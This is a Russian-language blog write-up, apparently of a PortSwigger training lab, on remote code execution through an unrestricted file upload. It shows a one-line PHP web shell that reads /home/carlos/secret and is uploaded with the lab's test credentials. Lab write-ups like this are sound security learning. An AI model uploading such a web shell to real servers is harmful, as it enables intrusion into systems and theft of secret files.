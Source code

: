 ```yaml
---
title: "Remote code execution via web shell upload"
date: 2025-08-07
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/file-upload-apprentice/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload"
classes: wide
---
```


Эта лаба содержит **узявимость в загрузке файлов**.

Для решения лабы нужно загрузить `PHP` скрипт, который выведет содержимое файла `/home/carlos/secret`. У нас есть креды пользователя `wiener:peter`.

```
https://0a580059035e264780154ef8009b001b.web-security-academy.net/ca
```

## Solution

В задаче написано, что нужно загрузить `PHP` скрипт. Я человек простой, вижу — делаю. Создам файл:

*img.php*:

```PHP
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Заходим в лк и загружаем файл.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Remote_code_execution_via_web_shell_upload/1.png){: height="200" .align-center}

Файл загружен:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Remote_code_execution_via_web_shell_upload/2.png){: height="200" .align-center}

Попробую посмотреть его содержимое:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Remote_code_execution_via_web_shell_upload/3.png){: height="200" .align-center}
